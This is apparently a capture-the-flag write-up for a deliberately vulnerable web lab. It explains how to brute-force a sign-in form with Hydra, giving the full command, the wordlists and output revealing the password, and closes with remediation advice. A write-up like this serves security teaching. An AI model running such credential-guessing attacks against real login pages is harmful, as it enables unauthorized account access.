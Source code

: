# Breach: Bruteforce


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the sign in page (either `/index.php?page=signin` or `/?page=signin`).

> When you try to log in, the form redirect you to the page :<br>
> `/?page=signin&username=_____&password=_____&Login=Login`<br>

> You notice also that an image is displayed, saying "WrongAnswer".<br>
> You can deduce that when the login is correct, the image "WrongAnswer" will not be displayed.


#### Step 2:

Let's try to bruteforce a login. We will use Hydra to do so.

- Install `hydra` if you haven't already.


#### Step 3:

Let's get the list of most common usernames and passwords.

- You can find a list of ~3.5k common passwords in `/usr/share/wordlists/john.lst`.
  - This list is native to Kali Linux.
  - But you can find it on the official repo of John The Ripper.<br>
    [john-the-ripper/run/password.lst](https://github.com/pmittaldev/john-the-ripper/blob/master/run/password.lst).

- The repo SpecLists gives a quite exhaustive list of usernames.<br>
  [SecLists/Usernames/top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
```txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
```


#### Step 4:

Use Hydra to bruteforce a login.

- The `-vV` flag is used to display the login attempts.
- The `-L top-usernames-shortlist.txt` flag is used to specify the username list.
- The `-P /usr/share/wordlists/john.lst` flag is used to specify the password list.
- Next, the host, with `-s <port>` to specify the port number.
- `http-get-form <request>` option says that we are trying to log in using a GET request.<br>
  The `<request>` syntax is as follows: `<path>:<form_fields>:<success_or_failure_condition>`
  - The form is located at the root of the website. So we use `/` as path.
  - The form has 4 fields: `page`, `username`, `password` and `Login`.
    - `page` is always `signin`.
    - `username` is the username we are trying. So we use `^USER^`.
    - `password` is the password we are trying. So we use `^PASS^`.
    - `Login` is always `Login`.
  - If the image `WrongAnswer.gif` is displayed, it's a fail.<br>
    So we use `F=<img src=\"images/WrongAnswer.gif\" alt=\"\">`.<br>
    - The `F=` is used to specify the failure condition.
    - And it is followed by the HTML code of the image `WrongAnswer.gif`.

- The full command is:
```bash
hydra -vV -L top-usernames-shortlist.txt -P /usr/share/wordlists/john.lst 192.168.192.18 -s 4243 http-get-form "/:page=signin&username=^USER^&password=^PASS^&Login=Login:F=<img src=\"images/WrongAnswer.gif\" alt=\"\">"
```


> We get the lines :
> ```
> ...
> [4243][http-get-form] host: 192.168.192.18   login: root   password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: admin  password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: test   password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: guest  password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: info   password: shadow
> ...
> ```
> So we deduce that the password is `shadow`, and that the username doesn't matter.


#### Step 5:

- Log in using the password `shadow` (the username doesn't matter).


<br>


## How to fix it:

- <b>NEVER</b> use GET requests to send sensitive data like passwords !<br>
  In fact, even a POST request can be a problem if you want the auth to be more secure...<br>
  It's better to encrypt the password locally and then send it.<br>
  But at least, NEVER with GET when the password is in plan text !

<br>

- Use a strong password (`shadow` is one of the worst passwords you can choose)<br>
  as well as a less common username (try to avoid `admin`, `root` or `guest`).

<br>

- <u>Recommendation:</u><br>
  Add an other security layer. Some examples:
  - A delay between each try (only about 2 or 3 seconds are very efficient !)
  - A maximum amount of try (before locking the account or something like that)
  - The Two Factors Authentication (2FA)
  - Or the cherry on the top, the best of the best, a <em>CAPTCHA</em> !

---

[[Back to main page](/#darkly)]
